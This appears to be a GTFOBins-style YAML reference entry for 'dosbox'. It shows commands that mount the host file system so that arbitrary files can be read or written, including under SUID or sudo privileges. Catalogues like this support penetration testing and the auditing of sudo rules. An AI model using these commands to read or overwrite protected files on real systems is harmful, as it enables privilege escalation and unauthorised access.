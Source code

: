 ```yaml
---
description: Basically `dosbox` allows to mount the local file system, so that it can be altered using DOS commands. Note that the DOS filename convention ([8.3](https://en.wikipedia.org/wiki/8.3_filename)) is used.
functions:
  file-read:
    - description: The file content will be displayed in the DOSBox graphical window.
      code: |
        LFILE='\path\to\file_to_read'
        dosbox -c 'mount c /' -c "type c:$LFILE"
    - description: The file is copied to a readable location.
      code: |
        LFILE='\path\to\file_to_read'
        dosbox -c 'mount c /' -c "type c:$LFILE >c:\tmp\output" -c exit
        cat '/tmp/OUTPUT'
  file-write:
    - description: Create a file with the content to be written
      code: |
        echo DATA > /tmp/data.txt
        dosbox -c 'mount c /' -c "type c:\tmp\data.txt >c:\path\to\file_to_write" -c exit
  suid:
    - description: Create a file with the content to be written.
      code: |
        echo DATA > /tmp/data.txt
        dosbox -c 'mount c /' -c "type c:\tmp\data.txt >c:\path\to\file_to_write" -c exit
  sudo:
    - description: Create a file with the content to be written.
      code: |
        echo DATA > /tmp/data.txt
        sudo dosbox -c 'mount c /' -c "type c:\tmp\data.txt >c:\path\to\file_to_write" -c exit
---
```

